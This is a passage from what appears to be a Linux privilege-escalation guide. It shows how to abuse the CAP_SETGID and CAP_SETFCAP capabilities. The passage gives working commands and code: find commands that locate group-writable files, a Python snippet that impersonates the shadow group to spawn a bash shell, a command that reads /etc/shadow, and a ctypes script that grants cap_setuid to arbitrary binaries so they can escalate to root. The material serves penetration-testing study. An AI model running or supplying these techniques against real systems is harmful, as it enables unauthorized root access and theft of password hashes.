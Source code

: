 ## CAP\_SETGID

**This means that it's possible to set the effective group id of the created process.**

There are a lot of files you can **overwrite to escalate privileges,** [**you can get ideas from here**](payloads-to-execute.md#overwriting-a-file-to-escalate-privileges).

**Example with binary**

In this case you should look for interesting files that a group can read because you can impersonate any group:

```bash
#Find every file writable by a group
find / -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file writable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file readable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=r -exec ls -lLd {} \; 2>/dev/null
```

Once you have find a file you can abuse (via reading or writing) to escalate privileges you can **get a shell impersonating the interesting group** with:

```python
import os
os.setgid(42)
os.system("/bin/bash")
```

In this case the group shadow was impersonated so you can read the file `/etc/shadow`:

```bash
cat /etc/shadow
```

If **docker** is installed you could **impersonate** the **docker group** and abuse it to communicate with the [**docker socket** and escalate privileges](./#writable-docker-socket).

## CAP\_SETFCAP

**This means that it's possible to set capabilities on files and processes**

**Example with binary**

If python has this **capability**, you can very easily abuse it to escalate privileges to root:

{% code title="setcapability.py" %}
```python
import ctypes, sys

#Load needed library
#You can find which library you need to load checking the libraries of local setcap binary
# ldd /sbin/setcap
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

libcap.cap_from_text.argtypes = [ctypes.c_char_p]
libcap.cap_from_text.restype = ctypes.c_void_p
libcap.cap_set_file.argtypes = [ctypes.c_char_p,ctypes.c_void_p]

#Give setuid cap to the binary
cap = 'cap_setuid+ep'
path = sys.argv[1]
print(path)
cap_t = libcap.cap_from_text(cap)
status = libcap.cap_set_file(path,cap_t)

if(status == 0):
    print (cap + " was successfully added to " + path)
```